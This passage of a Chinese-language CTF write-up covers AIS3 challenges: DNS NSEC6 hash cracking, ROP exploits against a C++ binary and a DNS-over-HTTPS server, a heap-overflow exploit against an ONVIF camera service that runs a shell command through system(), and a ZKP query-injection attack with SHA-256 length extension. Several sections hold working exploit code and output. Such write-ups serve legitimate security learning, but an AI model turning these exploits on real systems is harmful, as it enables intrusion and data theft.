zone_buf[0:20]  = ff ff ff fd ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
zone_buf[20:40] = 72 26 ef ee f6 66 f4 e8 7f ef 3e fc 13 6c 57 f3 ec 92 de 2b
```

11. 有了 `zone_buf` 後可以本地計算任意 label 的 NSEC6 hash。[nsec6_crack_labels.py](nsec6_crack_labels.py) 會從 stdin 讀候選 label，計算 `<label>.curious.sleeping.` 的 NSEC6 hash，並和目標比對：

```bash
printf '%s\n' status azft0azxct7utcyw \
  | python3 nsec6_crack_labels.py S6NPJID2K4SNE7AB754D34I8IK3E8TKJ

# azft0azxct7utcyw
```


12. 因為 `zone_buf[0:20]` 幾乎全是 `ff`，`h1 | zone_buf[0:20]` 大部分 byte 都會被固定成 `ff`。把未知 hash 反推 `final_mix`，第一個 byte `0x10` 是 label 長度 16，後面可以看出 hidden owner 是：`azft0azxct7utcyw.curious.sleeping.`

```text
target = S6NPJID2K4SNE7AB754D34I8IK3E8TKJ
inv_final_mix(target) =
10 61 7a 66 74 30 61 7a 78 63 74 37 75 74 63 79 76 ff ff ff
    a  z  f  t  0  a  z  x  c  t  7  u  t  c  y  w
```

13. 最後查 TXT record，得到 Flag：

```bash
curl 'http://chals1.ais3.org:53573/dns-query?name=azft0azxct7utcyw.curious.sleeping&type=TXT'

azft0azxct7utcyw.curious.sleeping. TXT "AIS3{w4lking_0n_D0H_z0n3--NSEC...NSEC6!_666~~~}"
azft0azxct7utcyw.curious.sleeping. RRSIG TXT 15 3 3600 20300101000000 20260513000000 11113 curious.sleeping. ...
```

## std::print("Hello, World") revenge

- Tags：`Pwn`

1. 先檢查防護有 `Full RELRO`，其他都關；從 Makefile 可以看到編譯參數 `CXXFLAGS = -std=c++23 -Wall -Wno-stringop-overflow -no-pie -fno-stack-protector -Wl,-z,relro,-z,now`
2. 分析 main 可以發現，程式一開始會呼叫 `load_flag()`，把 `flag.txt` 讀進 `.bss`，接著印一次數字，然後無限呼叫 `Question()`。
3. 使用 IDA 分析 `load_flag()`，flag 會被放在固定地址 `0x427040`



4. 從可以發現，這裡 stack buffer 是 `0x50` bytes，但 `read(0, buf, 0xe0)` 讀入 `224` bytes，限制是 `payload[0]` 必須是 'Y' 或 'y'，buffer size = 0x50、saved rbp   = 8、return addr = 0x58。



5. 可以構造出 ROP 開頭是：`b"y" + b"A" * (0x58 - 1) + rop_chain`

PLT：

```text
read@plt   = 0x403310
fwrite@plt = 0x403400
```

Data：

```text
stdout = 0x427020
stdin  = 0x427030
FLAG   = 0x427040
.bss   usable around 0x427100
```

6. 最直覺的方式是呼叫 `fwrite(FLAG, 1, 0x7f, stdout)`，但少了 gadget `pop rdx` / `pop rcx`，目前選擇利用程式內既有的 `std::print` wrapper，讓它幫忙把記憶體內容格式化輸出。
7. 先用可控的 `rdi`/`rsi` 呼叫 `read(0, 0x427100, 0xe0)`，這裡不用控制 `rdx`，因為 `Question()` 呼叫 `read` 後，`rdx` 仍是 `0xe0`，剛好可以沿用：

```python
# stage1 rop
POP_RDI = 0x416e51
POP_RSI = 0x416e4f
POP_RBP = 0x4034ed
LEAVE_RET = 0x40356a
READ = 0x403310
BSS = 0x427100

rop = flat(
    POP_RDI, 0, 0xdeadbeef,
    POP_RSI, BSS, 0, 0xdeadbeef,
    READ,
    POP_RBP, BSS,
    LEAVE_RET,       # stack pivot to .bss
)
```

8. 觀察一下 `std::print`，如果直接跳到 `0x406b75`，就能避開前面把 `rdx/rcx/r8` 存入 stack 的部分，改由 fake `rbp` frame 控制：

```asm
0000000000406b48 <std::print<int&, int&, int&>(...)>:
  406b69: mov QWORD PTR [rbp-0x38],rdx
  406b6d: mov QWORD PTR [rbp-0x40],rcx
  406b71: mov QWORD PTR [rbp-0x48],r8
  406b75: mov rax,QWORD PTR [rbp-0x48]
  ...
  406b99: mov rax,QWORD PTR [rip+0x20480] # stdout
  406ba0: mov rsi,QWORD PTR [rbp-0x30]    # format length
  406ba4: mov rdx,QWORD PTR [rbp-0x28]    # format pointer
  406ba8: mov r9,r8
  406bab: mov r8,rdi
  406bae: mov rdi,rax                     # stdout
  406bb1: call FILE* std::print wrapper
  406bb7: leave
  406bb8: ret

[rbp - 0x48] = pointer to int arg2
[rbp - 0x40] = pointer to int arg1
[rbp - 0x38] = pointer to int arg0
[rbp - 0x30] = format length
[rbp - 0x28] = format pointer
[rbp + 0x00] = next rbp
[rbp + 0x08] = next rip
```

9. 最初嘗試使用 fixed width format。但後來發現 `{:08x}` 的 zero-padding path 會使用更深的 stack。因為我們 pivot 到 `.bss`，stack 空間有限，遇到 `0` 或短 hex 值時容易往下踩到 unmapped memory 或 `stdout` 附近的 global data。

```text
{:08x}{:08x}{:08x}\n
```

10. 最後改用不定寬、有分隔符的 format。每次可將 3 個 `int` 印成 hex，也就是 leak 12 bytes。即使 leading zero 不見也沒關係，因為每一段都用 `int(part, 16).to_bytes(4, "little")` 還原成固定 4 bytes。

```text
{:x}.{:x}.{:x}\n
```

11. 一開始想在同一條 ROP chain 裡串多個 fake frame，但 `std::print` 內部 stack 用量很深，連續 chain 容易互相覆蓋 frame 或踩到 `.bss` 低位的 `stdout`/`FLAG`。最後採用更穩的做法：每次連線只 leak 12 bytes，輸出後 process crash 也沒關係。遠端每次新連線都會重新啟動程式並 `load_flag()`，而 `FLAG` address 固定，所以用 `offset = 0, 12, 24, ...` 重複戳即可拼出完整 flag。重點 exploit 節錄如下：

```python
def build_payload(delta: int):
    rop = flat(
        POP_RDI, 0, 0xDEADBEEF,
        POP_RSI, FAKE_STACK, 0, 0xDEADBEEF,
        READ,
        POP_RBP, FAKE_STACK,
        LEAVE_RET,
    )

    first = (b"y" + b"A" * (OFFSET - 1) + rop).ljust(0xE0, b"P")

    frame = FAKE_STACK + 0x58
    stage = bytearray(0xE0)
    stage[0:8] = p64(frame)
    stage[8:16] = p64(PRINT_MID)

    write64(frame + 0x00, 0)
    write64(frame + 0x08, elf.symbols["main"])
    write64(frame - 0x48, FLAG + delta + 8)
    write64(frame - 0x40, FLAG + delta + 4)
    write64(frame - 0x38, FLAG + delta)
    write64(frame - 0x30, len(FMT_BYTES))
    write64(frame - 0x28, FMT)
    stage[FMT - FAKE_STACK:FMT - FAKE_STACK + len(FMT_BYTES)] = FMT_BYTES

    return first, bytes(stage)
```

12. 打到遠端然後拼出 Flag：

```text
$ python solve.py REMOTE
[*] offset 0x0: b'AIS3{f4k3_fl'
[*] offset 0xc: b'4g_1s_4ls0_4'
[*] offset 0x18: b'_fl4g}\n\x00\x00\x00\x00\x00'
AIS3{f4k3_fl4g_1s_4ls0_4_fl4g}
```
## DG Server (Pwn)

- Tags：`Pwn`
- `dg-server` 是一個自訂 DNS-over-HTTP (DoH) 伺服器，實作了類似 DNSSEC 的簽名驗證系統。
	- HTTP GET `/dns-query?name=<name>&type=<type>`
	- 支援 DNS 記錄類型：A, NS, MX, SOA, DNSKEY, DS, RRSIG, NSEC6
	- 使用 Ed25519 簽名驗證

1. 首先檢查防護機制有開 `Partial RELRO`、`NX`、`IBT`、`canary`
2. 打開 IDA 發現 `format_invalid_type` (sub_40923F)，當 HTTP `type` 參數不是合法 DNS 類型時，伺服器呼叫此函數。其 stack layout 如下：

```
rbp - 0x78  arg3 (rdx = max_size)
rbp - 0x70  arg2 (rsi = 回應緩衝區指標)
rbp - 0x68  arg1 (rdi = 請求 struct 指標)
rbp - 0x58  零值欄位
rbp - 0x50  type lookup 結果指標
rbp - 0x48  函數指標 (= 0x407801)
rbp - 0x40  type_buf[0]      ← 溢出起點
  ...
rbp - 0x08  canary
rbp + 0x00  saved rbp (外層函數的 rbp)
rbp + 0x08  return address   (= 0x4095e4)
```

> type_buf 到 canary 的距離 = 0x38 = 56 bytes

3. `hex_encode()` 函數以 type_buf 為起點，讀取 `min(type_len, 160)` bytes 並以 hex 形式放入 JSON 回應的 `bad_type` 欄位。



4. 當 type 長度 ≥ 18 時，溢出會把 `type_len_16`（rbp-0x30）改成 `0x4141`（> 160），讓 `hex_encode` 固定讀取 160 bytes，包含 type_buf 後方的堆疊資料。

送出 56 個 'X'：
```
GET /dns-query?name=www.curious.sleeping.&type=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1
```

response 範例：
```json
{"Status":4,"Comment":"invalid query type","bad_type":"5858...5800<canary><outer_rbp><ret_addr>..."}
```

160-byte 洩漏的 offset 對照：

| Offset | Content                      |
| ------ | ---------------------------- |
| 0–55   | type_buf (56 'X')            |
| 56–63  | **canary** (8 bytes)         |
| 64–71  | **outer_rbp** (外層函數 rbp 值)   |
| 72–79  | return address (= 0x4095e4)  |
| 80–87  | 外層函數 arg2                    |
| 88–91  | 未初始化                         |
| 92–95  | **socket_fd** (4-byte DWORD) |

> socket_fd 推導：外層函數 (0x409440) 將 `edi`（socket fd）存於 `[rbp-0x6254]`。
> 由 format_invalid_type frame 結構推算：
> `socket_fd_offset_from_type_buf = 0x62B0 - 0x6254 = 0x5C = 92`

5. 觀察到 `sub_40917f()` 將 type 字串逐 byte URL-decode 後寫入 `type_buf`，但完全不檢查長度。送入超過 56 bytes 即可覆蓋 canary、saved rbp、return address。



**URL Decode 行為**：
- `type` 參數值為原始 URL-encoded 字串，`struct+0x108` 存的是 decoded byte 數
- `%XX` → 單一 byte，因此可傳入任意二進位資料
- 前 16 bytes（decoded 位置 0~15） 會套用 `tolower/toupper`，因此需避開

6. 送出 56 個 'X' 作為 type 參數，解析 response 取得：
	- `canary`：用於通過 canary 檢查
	- `outer_rbp`：計算 `/flag.txt` 字串在堆疊上的地址
	- `socket_fd`：write syscall 目標 fd（實測為 4）

7. 送出 exploit 後拿到 Flag（節錄）：

```python
#!/usr/bin/env python3

import socket
import struct
import urllib.parse
import hashlib
import urllib.request
import re

HOST = 'chals1.ais3.org'
PORT = 57573

# Gadget addresses (from ropper analysis)
POP_RDI    = 0x69a383   # pop rdi; ret
POP_RSI    = 0x46958e   # pop rsi; ret
POP_RDX    = 0x4d5513   # pop rdx; ret
POP_RAX    = 0x694ed4   # pop rax; ret
SYSCALL    = 0x711d26   # syscall; ret
MOV_EDI_EAX = 0x6bd710  # mov edi, eax; ret (for fd transfer after open)
BSS_BUF    = 0x8f7000   # writable BSS area for flag data

def leak_stack():
    s = connect()
    resp = send_http_get(s, 'www.curious.sleeping.', 'X' * 56)
    s.close()

    # Extract bad_type hex value from JSON response
    m = re.search(rb'"bad_type":"([0-9a-f]+)"', resp)
    if not m:
        raise RuntimeError(f"Leak failed, response: {resp[:200]}")

    hex_data = m.group(1).decode()
    raw = bytes.fromhex(hex_data)

    print(f"[+] Leaked {len(raw)} bytes")
    if len(raw) < 96:
        raise RuntimeError(f"Leak too short: {len(raw)} bytes")

    canary   = struct.unpack('<Q', raw[56:64])[0]
    outer_rbp = struct.unpack('<Q', raw[64:72])[0]
    ret_addr = struct.unpack('<Q', raw[72:80])[0]
    socket_fd = struct.unpack('<I', raw[92:96])[0]

    print(f"[+] canary:    {hex(canary)}")
    print(f"[+] outer_rbp: {hex(outer_rbp)}")
    print(f"[+] ret_addr:  {hex(ret_addr)} (expected 0x4095e4)")
    print(f"[+] socket_fd: {socket_fd}")

    return canary, outer_rbp, socket_fd

def build_payload(canary, outer_rbp, socket_fd):
    # type_buf is at outer_rbp - 0x62B0
    # /flag.txt\0 placed at offset 16 from type_buf (no case transform)
    # string address = outer_rbp - 0x62B0 + 16 = outer_rbp - 0x62A0
    flag_str_addr = outer_rbp - 0x62A0

    # ROP chain:
    # 1. open("/flag.txt", O_RDONLY)
    # 2. mov edi, eax (fd -> rdi)
    # 3. read(fd, BSS_BUF, 200)
    # 4. write(socket_fd, BSS_BUF, 200)
    rop = b''
    rop += p64(POP_RDI)    + p64(flag_str_addr)  # rdi = "/flag.txt" ptr
    rop += p64(POP_RSI)    + p64(0)               # rsi = O_RDONLY (flags)
    rop += p64(POP_RDX)    + p64(0)               # rdx = 0 (mode)
    rop += p64(POP_RAX)    + p64(2)               # rax = SYS_open
    rop += p64(SYSCALL)                            # open() -> fd in rax
    rop += p64(MOV_EDI_EAX)                       # edi = eax (fd)
    rop += p64(POP_RSI)    + p64(BSS_BUF)         # rsi = BSS buffer
    rop += p64(POP_RDX)    + p64(200)             # rdx = count
    rop += p64(POP_RAX)    + p64(0)               # rax = SYS_read
    rop += p64(SYSCALL)                            # read(fd, BSS_BUF, 200)
    rop += p64(POP_RDI)    + p64(socket_fd)       # rdi = socket_fd
    rop += p64(POP_RSI)    + p64(BSS_BUF)         # rsi = BSS buffer
    rop += p64(POP_RDX)    + p64(200)             # rdx = count
    rop += p64(POP_RAX)    + p64(1)               # rax = SYS_write
    rop += p64(SYSCALL)                            # write(socket_fd, BSS_BUF, 200)

    # Payload structure:
    # bytes  0-15: nulls (case-transformed but we don't care)
    # bytes 16-25: /flag.txt\0 (NOT case-transformed)
    # bytes 26-55: padding (30 'A's)
    # bytes 56-63: canary
    # bytes 64-71: saved_rbp (keep original)
    # bytes 72+:   ROP chain
    payload  = b'\x00' * 16            # bytes 0-15
    payload += b'/flag.txt\x00'        # bytes 16-25
    payload += b'A' * 30               # bytes 26-55 (padding to canary)
    payload += struct.pack('<Q', canary)  # bytes 56-63
    payload += struct.pack('<Q', outer_rbp)  # bytes 64-71
    payload += rop                         # bytes 72+

    print(f"[+] Payload length: {len(payload)} bytes")
    print(f"[+] flag_str_addr: {hex(flag_str_addr)}")
    print(f"[+] ROP chain size: {len(rop)} bytes")
    return payload

def exploit(canary, outer_rbp, socket_fd):
    payload = build_payload(canary, outer_rbp, socket_fd)
    type_str = url_encode_bytes(payload)

    print(f"[+] URL-encoded type length: {len(type_str)} chars")

    # Send the overflow request
    s = connect()
    s.settimeout(15)

    req = f"GET /dns-query?name=www.curious.sleeping.&type={type_str} HTTP/1.1\r\nHost: {HOST}\r\nConnection: close\r\n\r\n"
    print(f"[+] Sending exploit request ({len(req)} bytes)...")
    s.sendall(req.encode())

    # Read response
    data = b''
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            data += chunk
            if b'AIS3' in data or b'flag' in data.lower():
                break
    except socket.timeout:
        print("[!] Socket timeout reading response")
    finally:
        s.close()

    return data

def main():
    print("[*] Phase 1: Leak stack values")
    try:
        canary, outer_rbp, socket_fd = leak_stack()
    except Exception as e:
        print(f"[-] Leak failed: {e}")
        print("[*] Solving PoW to get a fresh instance...")
        solve_pow()
        canary, outer_rbp, socket_fd = leak_stack()

    print("\n[*] Phase 2: Send overflow payload")
    resp = exploit(canary, outer_rbp, socket_fd)

    print(f"\n[*] Response ({len(resp)} bytes):")
    print(resp[:500])

    # Look for flag
    if b'AIS3{' in resp:
        import re
        flag = re.search(rb'AIS3\{[^}]+\}', resp)
        if flag:
            print(f"\n[+] FLAG: {flag.group().decode()}")
    elif b'flag' in resp.lower():
        print("[+] Possible flag in response!")
    else:
        # Try to decode if raw binary was sent
        print("[*] Checking for binary flag data...")
        for i in range(len(resp)):
            if resp[i:i+4] == b'AIS3':
                print(f"[+] FLAG: {resp[i:i+50]}")
                break

if __name__ == '__main__':
    main()

# [+] canary:    0xeda6350ff8797300
# [+] outer_rbp: 0x7ffda98ec090
# [+] ret_addr:  0x4095e4
# [+] socket_fd: 4
# [+] FLAG: AIS3{B4d_bAd_64d_D0H_p4r(rr)rs3r[rr]r_:(((_QQ}
```
## ooonvifd

- Tags：`Pwn`
- `onvifd`：ONVIF-like IP camera HTTP/SOAP service (ELF)
- `Dockerfile`：Ubuntu 20.04 環境，flag 位於 `/flag.txt`

1. 先檢查保護機制，`onvifd` 是 64-bit PIE ELF：

```text
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
FORTIFY:    Enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

2. 服務是一個簡化的 ONVIF HTTP/SOAP server，預設 listen 在 `8080`。可以看到幾個主要 handler：

```text
handle_get_capabilities  0x1930
handle_upload_firmware   0x1ce0
dispatch_soap            0x1d90
parse_http.constprop_0   0x22a0
parse_mime               0x27a0
```

可觸發的 SOAP operation @dispatch_soap：



> 其中 `UploadFirmware` 會解析 `multipart/related` MIME attachment，這是後面 heap overflow 的入口。

3. 在函數 `handle_get_capabilities` 中，它用 `__snprintf_chk` 把 SOAP response 寫進 stack 上 `0x500` bytes buffer。response 內會把 `Host:` header 重複放進多個 URL。而 `Host:` 最長可達 511 bytes。當 host 很長時，`snprintf` 會截斷輸出，但回傳值是「如果 buffer 足夠，本來會寫入的長度」。程式接著把這個回傳值當作 `send()` 的長度：

```c
// http://%s/onvif/device_service
// http://%s/onvif/media_service
// ...
n = snprintf(stack_buf, 0x500, response_fmt, host, host, ...);
send(fd, stack_buf, n, 0);
```



4. 因此 `send()` 會把 `0x500` buffer 後面的 stack 內容一起送出，形成 stack overread。Leak request 核心，並且得知穩定 leak offsets：

```python
body = b"<s:Envelope><s:Body><tds:GetCapabilities/></s:Body></s:Envelope>"
req = http_req(body, host=b"A" * 511)

# response[0x508:0x510]  stack canary
# response[0x528:0x530]  PIE return address, PIE base = leak - 0x1597
# response[0x608:0x610]  libc return address
```

5. 每個 MIME part 的 content buffer 一開始配置 `malloc(0x200)`，正常 byte append 會檢查容量，不夠就 `realloc` 成兩倍。



6. 問題出在 parser 遇到 `\r\n--...` 時會進入 boundary detection。若 boundary match 到一半失敗，它會把剛剛讀到的 bytes 補回 content buffer。這段補回邏輯只檢查目前是否還有空間，沒有檢查「整段要補回的 bytes」是否都放得下。


7. 利用方式是讓 content 長度剛好接近 `0x200`，例如 `0x1ff`，然後送一段假的 boundary prefix，這樣 parser 補回 fake boundary bytes 時會越過目前 `0x210` chunk，進而覆蓋下一個 heap chunk 的內容：

```text
"A" * 0x1ff + "\r\n--" + partial_boundary
```

9. 目標環境是 Ubuntu 20.04/glibc 2.31，glibc 2.31 的 tcache 還沒有實作 safe-linking，而且 `__free_hook` 還存在，因此可以用 tcache poisoning 讓 `malloc(0x200)` 回傳 `__free_hook - delta`，再把 `system` 寫到 `__free_hook`。

```text
libc BuildID: 0323ab4806bee6f846d9ad4bccfc29afdca49a58
system:       0x52290
__free_hook:  0x1eee48
```

10. 整理利用流程如下：
	1. 用 `GetCapabilities` 長 Host leak libc base
	2. 先送一個合法 multipart request，建立三個 `0x210` content chunk，讓它們進入 tcache
	3. 再送 exploit multipart request
	4. 第一個 part 用 `0x1ff` bytes content 觸發 fake boundary overflow
	5. overflow 覆蓋下一個 freed `0x210` chunk 的 tcache `fd`
	6. 後續 `malloc(0x200)` 被導到 `__free_hook - delta`
	7. writer part 在 `__free_hook` 寫入 `system`
	8. cleanup 時程式會 `free()` attachment content，變成呼叫 `system(content)`
	9. 最後 command part 內容放 `cat /flag.txt 1>&4`

11. 送出 exploit payload 到遠端（節錄）：

```python
#!/usr/bin/env python3
import socket
import struct
import sys
import hashlib
import re
import time
from datetime import datetime, timezone

LIBC_START_MAIN_RET = 0x24083
SYSTEM = 0x52290
FREE_HOOK = 0x1EEE48

def leak(host, port):
    body = b"<s:Envelope><s:Body><tds:GetCapabilities/></s:Body></s:Envelope>"
    raw = http_req(body, host=b"A" * 511)
    data = request(host, port, raw)
    canary = u64(data[0x508:0x510])
    pie_ret = u64(data[0x528:0x530])
    libc_ret = u64(data[0x608:0x610])
    pie_base = pie_ret - 0x1597
    libc_base = libc_ret - LIBC_START_MAIN_RET
    log_info(f"canary={canary:#x} pie={pie_base:#x} libc={libc_base:#x} leak={libc_ret:#x}")
    return canary, pie_base, libc_base

def mime_body(boundary, parts):
    out = b""
    for p in parts:
        out += b"--" + boundary + b"\r\n"
        out += b"Content-Type: application/octet-stream\r\n\r\n"
        out += p
        out += b"\r\n"
    out += b"--" + boundary + b"--\r\n"
    return out

def send_mime(host, port, boundary, parts):
    body = mime_body(boundary, parts)
    ctype = b'multipart/related; boundary=' + boundary
    return request(host, port, http_req(body, ctype=ctype))


def prime(host, port):
    boundary = b"PRIME"
    soap = b"<s:Envelope><s:Body><tds:UploadFirmware/></s:Body></s:Envelope>"
    send_mime(host, port, boundary, [soap, b"B" * 0x20, b"C" * 0x20])


def good_target(free_hook):
    bad = {0x00, 0x09, 0x0a, 0x0d, 0x20}
    for delta in range(8, 0x1f0, 16):
        target = free_hook - delta
        first5 = p64(target)[:5]
        if all(c not in bad for c in first5):
            return target, delta
    raise RuntimeError("no header-safe aligned target near __free_hook")


def exploit(host, port):
    _, _, libc_base = leak(host, port)
    system = libc_base + SYSTEM
    free_hook = libc_base + FREE_HOOK
    target, delta = good_target(free_hook)
    log_info(f"system={system:#x} __free_hook={free_hook:#x} target={target:#x} delta={delta:#x}")

    prime(host, port)

    t = p64(target)
    boundary = b"B" * 13 + t[:5] + b"X"
    false_boundary = b"\r\n--" + b"B" * 13 + t[:6]

    first = b"A" * 0x1ff + false_boundary
    writer = b"W" * delta + p64(system)
    cmd = b"cat /flag.txt 1>&4 # UploadFirmware"

    data = send_mime(host, port, boundary, [first, writer, writer, cmd])
    print(data.decode(errors="replace"))


def main():
    host = "127.0.0.1"
    port = 9002
    if len(sys.argv) >= 2 and sys.argv[1] == "instancer":
        host, port = start_instance()
        log_info(f"instance {host}:{port}")
    elif len(sys.argv) >= 2 and sys.argv[1] != "local":
        host = sys.argv[1]
    if len(sys.argv) >= 3:
        port = int(sys.argv[2])
    exploit(host, port)


if __name__ == "__main__":
    main()

# AIS3{LiTTL3_Re@l_wORlD_PWN_Bu7_I_tHINk_ai_WriT3$_EXplo1t_f@St3R}
```

## EasyZKP

- Tags：`Crypto`
- `proof/app.py`：真正知道 flag 的 prover，提供 HTTP `/prove`
- `verifier/chal.py`：我們連到的互動服務，會替我們去問 prover

1. 先玩玩看互動服務，有兩個選項。在`challenge` 要連續通過 16 輪，每一輪 verifier 會：
	1. 產生 32 bytes 的 `server_part`
	2. 要我們輸入 `shown_nonce`
	3. 計算 `suffix = shown_nonce || server_part`
	4. 隨機選一個 `seed`
	5. 要我們回答 `compute_proof(flag, suffix, seed)`

2. 核心 proof 在 `zkp.py`，也就是對 `sha256(flag || suffix)` 的 256 個 bit 從高位到低位掃過去：

```python
def compute_proof_from_digest(digest, seed):
    value = 0
    for byte in digest:
        for offset in range(7, -1, -1):
            if (byte >> offset) & 1 == 0:
                raw_value = value + seed
                value = raw_value % N
            else:
                value = pow(value, seed, N)
    return value

# bit = 0: value = value + seed mod N
# bit = 1: value = value^seed mod N
```

3. `ask prover` 模式會先讓我們輸入一段 nonce，然後 verifier 用它組 HTTP URL 去戳內部 prover。問題是 `user_part_b64` 沒有 URL encode。prover 端解析 query 時，如果輸入 `&s=123`，verifier 組出來會類似：`/prove?p=<server>&d=&s=123&s=<verifier_random_seed>`。`parse_qs()["s"][0]` 會拿第一個 `s`，所以 prover 實際使用的是我注入的 `123`，不是 verifier 原本隨機產生的 seed。

```python
def fetch_proof(user_part_b64, server_part_b64, seed, bit_flip_indices=None):
    flip_query = ""
    if bit_flip_indices is not None:
        for index in bit_flip_indices:
            flip_query += f"&f={index}"
    url = f"{PROVER_URL}?p={server_part_b64}{flip_query}&d={user_part_b64}&s={seed}"
    
# ...
query = parse_qs(parsed.query, keep_blank_values=True)
seed = int(query["s"][0])
```

4. `ask prover` 模式還有一個選項 `2. flip one sha256 bit`，它會把 `sha256(flag || suffix)` 的指定 bit 翻轉後，再讓 prover 計算 proof：

```python
def compute_proof(flag, suffix, seed, bit_flip_indices=None):
    digest = hash_suffix(flag, suffix)
    if bit_flip_indices is not None:
        for index in bit_flip_indices:
            digest = flip_digest_bit(digest, index)
    return compute_proof_from_digest(digest, seed)
```

5. 所以我們拿到一個 oracle：
	- suffix 固定為 `user_part || server_part`。
	- digest 是固定的 `sha256(flag || suffix)`。
	- 我們可以選 seed。
	- 我們可以逐步翻 digest 的 bit。
	- 每次可以取得翻轉後 digest 的 proof。

6. 公開的 modulus $N$ 可以分解成小質數 $p \times q$ 相乘：

```python
N = 1371086445846712667727718527036585861739497962228620061686456237722902428356146756731186939
p = 1062991560384192946446466724143851978243633013
q = 1289837564986090927380812179078126226643568303
```

7. 令 $\lambda = lcm(p-1, q-1)$，由 Carmichael 定理，若注入 `seed = lambda`。proof 的狀態轉移變成以下這樣。只要 `value` 不是 0，它就是 $\lambda$ 的非零倍數，且與 $N$ 互質，所以遇到 `1` 時會被重設成 value = 1。因此最後一個「可見的 1」之後如果有 `t` 個 trailing zero，最後 proof 會是：

```text
bit = 0: value += lambda
bit = 1: value = value^lambda
...
proof = 1 + t * lambda mod N
```

所以看到 proof 後，可以查表反推出 `t`，也就是目前 digest 最右邊的「可見 `1`」在哪裡。

8. 有一個邊界情況：如果 digest 一開始是連續的前綴 `1`，在遇到第一個 `0` 之前 `value` 都還是 0，所以那些前綴 `1` 不會被  $x^\lambda = 1$  這個性質看見。當所有可見的 `1` 都被我們翻成 0 後，digest 會長這樣 `111...1110 000...000`，此時 proof 會是：

```text
proof = zero_count * lambda mod N
```

所以終止型 proof 可以反推 `zero_count`，再得到前綴那些原本看不到的 `1`：

```text
leading_ones = 256 - zero_count
```

9. 整理流程如下：
	1. 進 `ask prover`
	2. nonce 輸入 `base64(user_part) + "&s=" + str(lambda)`，注入 seed
	3. 查 proof
	4. 如果 proof 是 `1 + t * lambda` 形式，表示目前最後一個可見 `1` 的位置是 `255 - t`
	5. 用 flip oracle 把該 bit 翻成 0
	6. 重複直到 proof 變成 `zero_count * lambda` 形式
	7. 用 `zero_count` 補回前綴的連續 `1`，得到完整 256-bit digest

10. 所以用兩張表做 proof decode：

```python
TRAILING_PROOFS = {((1 + t * LAM) % N): t for t in range(256)}
TERMINAL_PROOFS = {((z * LAM) % N): z for z in range(257)}

def classify_lambda_proof(proof):
    if proof in TRAILING_PROOFS:
        return "trailing", TRAILING_PROOFS[proof]
    if proof in TERMINAL_PROOFS:
        return "terminal", TERMINAL_PROOFS[proof]
    raise ValueError(f"bad lambda proof: {proof}")
```

還原 digest 的主迴圈：

```python
def recover_digest():
    attempt = 0
    while True:
        attempt += 1
        c, server = start_oracle(b"", LAM)
        bits = [0] * 256
        queries = 0
        try:
            while True:
                proof = ask_proof(c)
                queries += 1
                kind, value = classify_lambda_proof(proof)
                if kind == "terminal":
                    zero_count = value
                    leading_ones = 256 - zero_count
                    for i in range(leading_ones):
                        bits[i] = 1
                    digest = int("".join(map(str, bits)), 2).to_bytes(32, "big")
                    c.close()
                    return server, digest
                t = value
                index = 255 - t
                bits[index] = 1
                if queries >= 128:
                    raise RuntimeError("digest weight too high for this session")
                flip_bit(c, index)
        except Exception:
            c.close()
            time.sleep(0.2)
```

11. 到這裡我們只知道 `digest = sha256(flag || base_suffix)`，且 SHA-256 是Merkle-Damgard 結構，只要知道 digest, message_length，就可以對後面追加的資料繼續 hash。假設 flag 長度是 `L`，我們構造：

```python
glue = sha256_padding(L + len(base_suffix))
shown_nonce = base_suffix || glue

# challenge
sha256(flag || shown_nonce || challenge_server_part)

# calc
sha256(flag || base_suffix || glue || challenge_server_part)
```

12. 如果 `L` 猜對，`flag || base_suffix || glue` 正好是一個合法 SHA-256 padding 後的訊息邊界，因此我們可以從已知 digest 繼續壓縮 `challenge_server_part`，得到 challenge 需要的 digest。

```python
def sha256_padding(length):
    return b"\x80" + b"\x00" * ((56 - (length + 1) % 64) % 64) + struct.pack(">Q", length * 8)

def sha256_continue(digest, processed_len, data):
    state = struct.unpack(">8I", digest)
    payload = data + sha256_padding(processed_len + len(data))
    for i in range(0, len(payload), 64):
        state = sha256_compress(state, payload[i:i + 64])
    return struct.pack(">8I", *state)
```

13. flag 長度未知，所以先用 oracle 測。對每個候選長度 `flag_len`：
	1. 算出 `glue = sha256_padding(flag_len + len(base_suffix))`
	2. 用 oracle 請 prover 計算 `base_suffix || glue || fresh_server_part` 的 proof
	3. 自己用 length extension 計算預測 digest
	4. 用公開的 `compute_proof_from_digest(predicted, 2)` 計算預測 proof
	5. 如果 proof 相同，長度就是對的

```python
def find_flag_len(base_suffix, base_digest):
    for flag_len in range(1, 129):
        glue = sha256_padding(flag_len + len(base_suffix))
        c, server2 = start_oracle(base_suffix + glue, 2)
        predicted = sha256_continue(base_digest, flag_len + len(base_suffix) + len(glue), server2)
        expected = compute_proof_from_digest(predicted, 2)
        got = ask_proof(c)
        c.close()
        if got == expected:
            return flag_len
    raise RuntimeError("flag length not found")

# flag length = 62
```

14. 已知 `base_suffix`、`base_digest = sha256(flag || base_suffix)`、`flag_len`，每一輪都送同一個 nonce：

```text
shown = base64(base_suffix || sha256_padding(flag_len + len(base_suffix)))
```

15. verifier 印出該輪的 `server suffix` 和 `seed` 後：
	1. 對 `server suffix` 做 SHA-256 length extension
	2. 用公開的 `compute_proof_from_digest()` 計算 proof
	3. 送回 verifier

```python
def solve_challenge(base_suffix, base_digest, flag_len):
    glue = sha256_padding(flag_len + len(base_suffix))
    shown = b64(base_suffix + glue)
    processed_len = flag_len + len(base_suffix) + len(glue)
    c = Conn()
    c.read_until(">")
    c.sendline("2")
    while True:
        line = c.recvline()
        if line.startswith("server suffix = "):
            server = base64.urlsafe_b64decode(line.split(" = ", 1)[1].encode())
            c.read_until("nonce:")
            c.sendline(shown)
        elif line.startswith("seed = "):
            seed = int(line.split(" = ", 1)[1])
            digest = sha256_continue(base_digest, processed_len, server)
            proof = compute_proof_from_digest(digest, seed)
            c.read_until("proof:")
            c.sendline(str(proof))
        elif line.startswith("AIS3{"):
            c.close()
            return line

# [+] recovered digest after 1 oracle attempt(s), weight=116
# [+] flag length = 62
# ...
# round 16/16
# ok
# AIS3{simple_oracle_and_dramatic_injections_leading_forge_XDDD}
```
